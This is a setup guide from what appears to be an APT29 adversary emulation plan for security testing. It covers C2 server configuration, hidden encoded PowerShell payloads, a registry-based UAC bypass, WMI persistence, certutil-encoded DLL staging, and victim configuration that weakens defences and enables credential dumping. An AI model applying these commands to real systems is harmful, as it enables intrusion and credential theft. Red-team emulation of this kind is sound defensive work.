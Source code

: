 # Scenario 2 Infrastructure

We hope to capture the general structure of what is reported to have been seen being used by APT29.  The infrastructure listed below is specific to Scenario 2.  The requirements described herein should be considered a bare minimum to execute the scenario.  If you have the time and resources to remain true-to-form, you may elect to stand up multiple of each of these servers, non-contiguous IP space, etc.  If you are not concerned with emulating APT29 to this degree, this level of effort is not necessary.  You could for instance, phish, serve payload, and exfil from/to the same server.

---

## Emulation Team Infrastructure

1. Server running an offensive framework (we tested and executed using PoshC2 -- <https://github.com/nettitude/PoshC2>) capable of:
    - Executing native PowerShell commands
    - Loading and executing PowerShell scripts (.ps1)
    - Generating a DLL payload and an encoded PowerShell oneliner
    - Receiving and maintaining multiple callbacks at once
2. Online OneDrive Account (https://onedrive.live.com/)

---

## Emulation Team Infrastructure Configuration

#### A note about red team payloads

- Pre-compiled payloads are available in the [resources](/Resources) directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

### Generate an encoded PowerShell oneliner payload, then copy:

1. Just the encoded portion (ex: `WwBTAH...=`) into `$enc_ps variable` (4th line from bottom) in [schemas.ps1](/Resources/Scenario_2/schemas.ps1)
    - ex: `$enc_ps = "WwBTAH...=="`
2. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `CommandLineTemplate` variable (under `$ConsumerArgs` in 2nd paragraph) in [stepFifteen_wmi.ps1](/Resources/Scenario_2/stepFifteen_wmi.ps1)
    - ex: `CommandLineTemplate="powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`
3. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `-Value` variable (2nd line) in [stepFourteen_bypassUAC.ps1](/Resources/Scenario_2/stepFourteen_bypassUAC.ps1)
    - ex: `New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value "powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`

#### Generate DLL payload, then on a separate Windows host:

1. [CMD] > `certutil -encode [file].dll blob`
2. [CMD] > `powershell`
3. [PS] > `$blob = (Get-Content .\blob) -join ""; $blob > .\blob`
4. Open `blob` file in text editor
5. Delete new line at end of file and copy all (CTRL-A, CTRL-C)
6. Paste value (ex: `-----BEGIN CERTIFICATE-----...-----END CERTIFICATE-----`) into `$bin` variable (6th line) in `schemas.ps1`

#### Copy [payloads](/Resources/Scenario_2/) to C2 server (wherever is appropriate for your C2 framework to have access to these files)

#### Update [stepFourteen_credDump.ps1](/Resources/Scenario_2/stepFourteen_credDump.ps1) -- directions are in file

#### Prepare initial access payloads:

1. Login as non-domain admin user
2. Copy over the following files onto the Desktop of the initial victim:

   - [2016_United_States_presidential_election_-_Wikipedia.html](/Resources/Scenario_2/2016_United_States_presidential_election_-_Wikipedia.html)
   - [make_lnk.ps1](/Resources/Scenario_2/make_lnk.ps1)
   - [schemas.ps1](/Resources/Scenario_2/schemas.ps1)

3. Copy over [MITRE-ATTACK-EVALS.HTML](/Resources/Scenario_2/MITRE-ATTACK-EVALS.HTML) into the Documents folder of the initial victim
4. Execute `make_lnk.ps1` (Right click > Run with PowerShell), this will generate `37486-the-shocking-truth-about-election-rigging-in-america.rtf.lnk`
5. Drag `make_lnk.ps1` and `schemas.ps1` to Recycle Bin and empty the Recycle Bin (Right click > Empty Recycle Bin)

---

## Target Infrastructure

1. 3 targets
    - 1 domain controller and 2 workstations
    - All Windows OS (tested and executed against Win10 1903)
    - Domain joined with at least 2 accounts (domain admin and another user)
2. Microsoft Outlook must be available locally on one of the victim workstations

---

## Target Infrastructure Configuration

#### For each of the three targets:

1. Login in as domain admin user
2. Ensure Windows Defender is off or configured to alert-only (<https://support.microsoft.com/en-us/help/4027187/windows-10-turn-off-antivirus-protection-windows-security>)
3. Change network type to Domain (<https://www.itechtics.com/change-network-type-windows-10/#2-_Setting_network_type_using_Windows_Registry>)
4. Set UAC to never notify (<https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10>)
5. Enable WinRM (<https://support.microsoft.com/en-us/help/555966>)
6. Enable UseLogonCredential in the WDigest Registry settings (<https://support.microsoft.com/help/2871997/microsoft-security-advisory-update-to-improve-credentials-protection-a>)

#### For the initial target (the workstation with Microsoft Outlook):

1. Login as non-domain admin user
2. Enable programatic access to Microsoft Outlook (<https://www.slipstick.com/developer/change-programmatic-access-options/>)
3. Open Outlook and sign in if necessary

---

## Additional Plan Resources

- [Intelligence Summary](/Intelligence_Summary.md)
- [Operations Flow](/Operations_Flow.md)
- [Emulation Plan](/Emulation_Plan/README.md)
  - [Scenario 1 - Infrastructure](/Emulation_Plan/Scenario_1/Infrastructure.md)
  - [Scenario 1](/Emulation_Plan/Scenario_1/README.md)
  - [Scenario 2 - Infrastructure](/Emulation_Plan/Scenario_2/Infrastructure.md)
  - [Scenario 2](/Emulation_Plan/Scenario_2/README.md)
  - [YAML](/Emulation_Plan/APT29.yaml)
- [Archive](https://github.com/center-for-threat-informed-defense/adversary_emulation_plan_apt29/tree/master/Archive)
- [Issues](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/issues)
- [Change Log](/CHANGE_LOG.md)
